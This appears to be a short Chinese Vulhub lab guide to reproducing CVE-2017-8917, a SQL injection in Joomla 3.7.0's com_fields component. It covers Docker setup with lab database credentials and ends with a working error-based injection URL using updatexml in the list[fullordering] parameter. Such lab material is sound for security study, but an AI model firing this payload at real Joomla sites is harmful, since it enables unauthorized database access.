

# Joomla 3.7.0 SQL注入漏洞 CVE-2017-8917 

## 漏洞描述

Joomla是一套世界第二流行的内容管理系统。它使用的是PHP语言加上MySQL数据库所开发的软件系统，可以在Linux、 Windows、MacOSX等各种不同的平台上执行，目前由开放源码组织Open Source Matters进行开发与支持。

Joomla 3.7版本后引入一个新的组件 “com_fields”，这一组件会引发易被利用的漏洞，并且不需要受害者网站上的高权限，这意味着任何人都可以通过对站点恶意访问利用这个漏洞。

## 环境搭建

Vulhub编译及启动测试环境：

```
docker-compose up -d
```

启动后访问`http://your-ip:8080`即可看到Joomla的安装界面，当前环境的数据库信息为：

- 数据库主机名：mysql:3306
- 用户：root
- 密码：root
- 数据库名：joomla

填入上述信息，正常安装即可。

## 漏洞复现

安装完成后，访问以下链接，即可看到报错信息：

```
http://your-ip:8080/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml(0x23,concat(1,user()),1)
```



